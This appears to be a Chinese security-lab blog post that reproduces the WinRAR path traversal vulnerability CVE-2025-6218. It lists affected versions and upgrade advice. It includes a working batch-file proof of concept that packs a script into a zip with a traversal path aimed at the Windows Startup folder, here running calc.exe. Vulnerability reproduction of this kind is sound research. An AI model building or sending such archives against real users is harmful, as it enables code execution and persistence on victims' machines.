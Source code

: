 #  【成功复现】WinRAR目录遍历漏洞(CVE-2025-6218)  
原创 弥天安全实验室  弥天安全实验室   2025-07-02 11:49  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCmcPQlsyhtfYWX1wjqGJ7O6e2N3Lh0tLAaLrQVWgIBygZAribhGejDxGrVXicoYFlLGgSyZxK2cv1w/640?wx_fmt=png&from=appmsg "")  
  
  
WinRAR是WinRAR公司的一款文件压缩器。该产品支持RAR、ZIP等格式文件的压缩和解压等。  
  
WinRAR存在路径遍历漏洞，该漏洞源于处理存档文件路径不当，可能导致目录遍历和远程代码执行。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
WinRAR < 7.12  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCmcPQlsyhtfYWX1wjqGJ7O5EUWa1nrCoVeL6Pf58ylph815TJib9G3UzdpdTQhN3qk9CgLNlVP0Dg/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
  
1.安装winrar漏洞版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCmcPQlsyhtfYWX1wjqGJ7OsTIYdsXkdHUljAOj3wpic2A8KqicENym8by9XjQibRJCd7up1Gtkia1KsQ/640?wx_fmt=png&from=appmsg "")  
  
  
2.对漏洞进行复现  
  
   
**POC**  
```
@echo off
title CVE-2025-6218 POC
echo calc.exe > POC.bat
:: Assumes that two directories up from the current working directory corresponds to the user's home directory (%USERPROFILE%)
"C:\Program Files\WinRAR\WinRAR.exe" a -ap" \.. \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\" %~dp0CVE-2025-6218.zip POC.bat
echo.
if errorlevel 1 (
    echo [!] Failed to create POC.
) else (
    echo [+] CVE-2025-6218.zip created successfully!
)
echo.
del POC.bat
pause
```  
  
运行批处理文件，成功echo文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCmcPQlsyhtfYWX1wjqGJ7OtriaibzNX9b9VXbgGs3NiaSeBY6LuCUXlRHMcL5Bv0EnLHS4aJ9klfY1w/640?wx_fmt=png&from=appmsg "")  
  
  
  
 通过查看写入文件，判断漏洞复现成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCmcPQlsyhtfYWX1wjqGJ7O4Sg6RhennXpsiboTgOIJkF6QA5OjdV7XT97wJoyTCw6KFlAjlg5icheA/640?wx_fmt=png&from=appmsg "")  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
用户应尽快升级到WinRAR 7.12或更高版本，以修复该漏洞。  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
https://www.win-rar.com/download.html?&L=0
```  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
